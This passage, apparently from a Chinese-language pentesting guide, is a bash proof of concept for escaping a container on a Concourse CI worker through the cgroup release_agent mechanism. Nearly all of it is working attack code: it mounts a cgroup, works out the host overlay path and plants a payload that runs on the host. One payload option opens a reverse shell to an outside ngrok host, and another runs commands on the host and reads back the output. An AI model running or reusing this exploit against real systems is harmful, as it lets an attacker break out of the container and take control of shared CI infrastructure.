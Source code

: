 在以下POC中，我们将使用版本\ _agent进行一些小的修改：

```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the memory cgroup controller, try change memory to rdma to fix it
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release


# CHANGE ME
# The host path will look like the following, but you need to change it:
host_path="/mnt/vda1/hostpath-provisioner/default/concourse-work-dir-concourse-release-worker-0/overlays/ae7df0ca-0b38-4c45-73e2-a9388dcb2028/rootfs"

# The initial path "/mnt/vda1" is probably the same, but you can check it using the mount command:
#/dev/vda1 on /scratch type ext4 (rw,relatime)
#/dev/vda1 on /tmp/build/e55deab7 type ext4 (rw,relatime)
#/dev/vda1 on /etc/hosts type ext4 (rw,relatime)
#/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime)

# Then next part I think is constant "hostpath-provisioner/default/"

# For the next part "concourse-work-dir-concourse-release-worker-0" you need to know how it's constructed
# "concourse-work-dir" is constant
# "concourse-release" is the consourse prefix of the current concourse env (you need to find it from the API)
# "worker-0" is the name of the worker the container is running in (will be usually that one or incrementing the number)

# The final part "overlays/bbedb419-c4b2-40c9-67db-41977298d4b3/rootfs" is kind of constant
# running `mount | grep "on / " | grep -Eo "workdir=([^,]+)"` you will see something like:
# workdir=/concourse-work-dir/overlays/work/ae7df0ca-0b38-4c45-73e2-a9388dcb2028
# the UID is the part we are looking for

# Then the host_path is:
#host_path="/mnt/<device>/hostpath-provisioner/default/concourse-work-dir-<concourse_prefix>-worker-<num>/overlays/<UID>/rootfs"

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent


#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```